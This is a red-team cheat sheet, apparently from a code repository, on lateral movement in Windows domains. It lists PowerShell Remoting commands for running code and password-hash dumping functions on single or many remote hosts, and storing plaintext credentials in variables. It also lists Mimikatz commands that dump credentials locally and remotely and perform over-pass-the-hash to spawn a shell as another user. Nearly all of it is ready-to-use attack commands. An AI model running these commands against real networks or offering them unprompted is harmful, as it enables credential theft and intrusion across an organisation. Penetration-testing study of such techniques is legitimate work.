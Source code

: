 # Lateral Movement
## PowerShell Remoting
PowerShell Remoting needs local admin access, and is enabled by default on Servers.
It can be enabled on workstations using
`Enable-PSRemoting`

### One-to-One
 - Connect to a server using PowerShell Remoting
`Enter-PSSession <servername>`
 - Create a session for reuse
`$sessionname = New-PSSession <targetserver>`
 - Enter the saved session
`Enter-PSSession $sessionname`
 - Run commands on a remote server
`Invoke-Command -ScriptBlock{whoami;hostname} -ComputerName <computer-name>`
 - Run scripts on a remote server (encodes in base64 scriptblock and runs in memory on the target)
`Invoke-Command -FilePath c:\scripts\script.ps1 -ComputerName <computer-name>`
 - Run locally loaded functions on remote machines
`Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <computer-name>`
 - Pass **positional** arguments to locally loaded functions on remote machines
`Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <computer-name> - ArgumentList`
 - Run "Stateful" commands on a remote session
```
# Create a session
$sessionname = New-PSSession <targetserver>
# Execute the command in the session and save to a variable
Invoke-Command -Session $sessionname -ScriptBlock {$Proc = Get-Process}`
# Execute the command variable in the session
Invoke-Command -Session $sessionname -ScriptBlock {$Proc}
# Treat the variable like the route function as required
Invoke-Command -Session $sessionname -ScriptBlock {$Proc.Name}
```

### One-to-Many (Fan-out)
All of the One-to-One commands can be run in parallel on multiple targets by providing a list.
 - Run commands on a list of servers
`Invoke-Command -ScriptBlock{whoami;hostname} -ComputerName (Get-Content <listofservers>`)
 - Run scripts on a list of remote servers
`Invoke-Command -FilePath c:\scripts\script.ps1 -ComputerName (Get-Content <listofservers>)`

### Credentials
All of the above commands can have the credentials entered manually when prompted. It can be easier to save these to a variable.
```
$securepassword = ConvertTo-SecureString '<password123>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<username>', $SecPassword)
Invoke-Command -ComputerName <computer-name> -Credential $Cred -ScriptBlock {whoami}
```
## Mimikatz
We can use Mimikatz remotely to extract credentials and do all kinds of other cool stuff.
 - Dump credentials on local machine
`Invoke-Mimikatz`
Or
`Invoke-Mimikatz -Command '"sekurlsa::ekeys"'`
 - Dump credentials on remote machines (uses Invoke-Command in the background)
`Invoke-Mimikatz -ComputerName <computername>`
 - On multiple targets
`Invoke-Mimikatz -ComputerName @("sys1", "sys2")`
 - **Over pass the hash** and start a new PowerShell process as the target user
`Invoke-Mimikatz -Command '"sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlmhash> /run:powershell.exe"'`